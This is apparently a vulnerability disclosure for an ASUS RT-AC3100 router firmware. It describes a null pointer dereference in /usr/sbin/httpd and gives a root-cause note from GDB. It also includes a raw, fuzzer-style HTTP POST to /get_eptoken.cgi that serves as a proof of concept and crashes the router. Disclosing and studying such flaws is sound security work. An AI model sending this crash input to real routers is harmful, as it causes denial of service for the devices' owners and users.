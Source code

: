 # ASUS AC3100 get_eptoken.cgi null pointer dereference

In ASUS [AC3100 3.0.0.4.386_48263](https://dlsvr04.asus.com.cn/pub/ASUS/wireless/RT-AC3100/FW_RT_AC3100_300438648263.zip?model=RT-AC3100) router's  `/usr/sbin/httpd`, There is a null pointer dereference vulnerability. Which affects the latest version of this router before 2024/2/11.

Null Pointer Deference will cause the deny of service(DoS) attack by a remote attacker.

## POC

```shell
POST /get_eptoken.cgi*h:
Aut$=^M
Content-Length: 93^M
^M
1*u%*Host: 1u%*u%*u%*u%rlucezXio                ?                                   o_çaaa++++E^[cywzyzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzy
S
A^M
Co
```

## Analysis

After sending the POC, The router crashes with segment fault. Below is the crash point in GDB, the register r0 is zero, which causes segment fault.

![image-20240211184547994](AC3100_get_eptoken.cgi/image-20240211184547994.png)

After analyzing the root cause, the router returns NULL in the function `json_object_get_object`,  which will cause Null-Pointer-Dereference in the following code.

![image-20240211184830999](AC3100_get_eptoken.cgi/image-20240211184830999.png)